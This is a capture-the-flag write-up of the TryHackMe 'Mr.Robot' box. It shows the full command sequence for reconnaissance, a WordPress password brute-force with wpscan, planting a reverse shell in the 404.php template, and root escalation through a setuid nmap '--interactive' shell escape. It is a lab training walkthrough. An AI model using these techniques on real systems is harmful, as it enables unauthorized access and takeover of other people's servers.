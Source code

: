 ```yaml
---
title: TryHackMe - Mr.Robot write up
date: 2020-01-07 22:19:00 +0100
categories: [TryHackMe]
tags: [TryHackMe, wordpress, wpscan, PHP]
render_with_liquid: false
---
```


![mr.robot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/mr_robot.jpg)

### about the machine

this is a medium rated box from [tryhackme](https://tryhackme.com), thought a little too easy if you asked me

### Reconnaissance

I added the box ip to my hosts file then a ran a quick nmap scan
```bash
# Nmap 7.91 scan initiated Wed Jan  6 22:39:07 2021 as: nmap -v -oN ports ctf.thm
Nmap scan report for ctf.thm (10.10.15.148)
Host is up (0.37s latency).
Not shown: 997 filtered ports
PORT    STATE  SERVICE
22/tcp  closed ssh
80/tcp  open   http
443/tcp open   https

Read data files from: /usr/bin/../share/nmap
# Nmap done at Wed Jan  6 22:39:26 2021 -- 1 IP address (1 host up) scanned in 19.88 seconds

```

### http enumeration

I visited both the `http` and the `https` and they seemed to have the same page, which is an interactive command line with couple defined commands, non of them were useful though
![command line](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/command_line.png)

visiting `robots.txt` I got the following result
```bash
User-agent: *
fsocity.dic
key-1-of-3.txt
```

looks like we found the first flag and what appreared to be very big a wordlist full of duplicated words

```bash
$ wget ctf.thm/fsocity.dic
--2021-01-06 22:56:37--  http://ctf.thm/fsocity.dic
Resolving ctf.thm (ctf.thm)... 10.10.28.187
Connecting to ctf.thm (ctf.thm)|10.10.28.187|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7245381 (6.9M) [text/x-c]
Saving to: ‘fsocity.dic’
858160 fsocity.dic

fsocity.dic         100%[================>]   6.91M   436KB/s    in 17s     

2021-01-06 22:57:01 (405 KB/s) - ‘fsocity.dic’ saved [7245381/7245381]
$ wc -l fsocity.dic
858160 fsocity.dic
$ cat fsocity.dic | sort -u > small.dict
$ wc -l small.dict
11451 small.dict
```

then I've ran some http files brutforce. turned out is website is running wordpress

```bash
$ gobuster dir -u ctf.thm -w $RAFT -t 30 -o robot.raft
/license.txt (Status: 200)
/index.php (Status: 301)
/wp-login.php (Status: 200)
/wp-register.php (Status: 301)
/index.html (Status: 200)
```

I tried getting enumerating the users by visiting `ctf.thm/?author=id` but it didn't work, then I browsed to `wp-login.php` and since I this is a mr.robot themed box I tried the user name `elliot` and bingo, the user existed (if anyone knows another method for getting a user without guessing please let me know)

![found user elleiot](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/found_user.png)

I've tried bruteforcing the password using the wordlist I got earlier and I've got some creds

```bash
$ echo elliot > user.txt
$ wpscan --url ctf.thm -U user.txt -P small.dict
...
[!] Performing password attack on Xmlrpc Multicall against 1 user/s
[!] Valid Combinations Found:
 | Username: elliot, Password: REDACTED_PASSWORD
```
# aaand I'm in
![logged in](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/wp_loged_in.png)


from here, first thing I've done is browsing to `appearance -> editor` and I've edited the `404.php` template to include a php reverse shell I got from [here](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![malicious 404.php](https://raw.githubusercontent.com/0x00Jeff/0x00Jeff.github.io/cfa67a59a1a729fbcb5c3e6caa5554c41fcd6c1e/assets/thm/robot/malicious_404.png)


then I browsed to `ctf.thm/jeff`, got a reverse connection, stabilized it then I began searching for the second flag

```bash
daemon@linux:~$ whoami
daemon
daemon@linux:~$ ls /home/
robot
daemon@linux:~$ cd /home/robot/
daemon@linux:/home/robot$ ls -lh
total 8.0K
-r-------- 1 robot robot 33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot 39 Nov 13  2015 password.raw-md5
daemon@linux:/home/robot$ cat key-2-of-3.txt
cat: key-2-of-3.txt: Permission denied
daemon@linux:/home/robot$
```

I found an md5-hashed `robot`'s creds, I got the original password by just copy/pasting the hash into google then I got the flag

### gaining root prileveges

the box had a really old version of `nmap` with a setuid bit set, old versions of nmap support the `--interactive` options, which lets you execute shell commands from an `nmap` prompts

```bash
daemon@linux:/home/robot$ find / -perm -u=s 2>/dev/null 
...
/usr/local/bin/nmap
...
^C
daemon@linux:/home/robot$ /usr/local/bin/nmap --version

nmap version 3.81 ( http://www.insecure.org/nmap/ )
daemon@linux:/home/robot$ /usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !bash -p
bash-4.3# whoami
root
bash-4.3# cd /root
bash-4.3# ls -lh
total 4.0K
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
bash-4.3# touch key-3-of-3.txt
bash-4.3# 
```
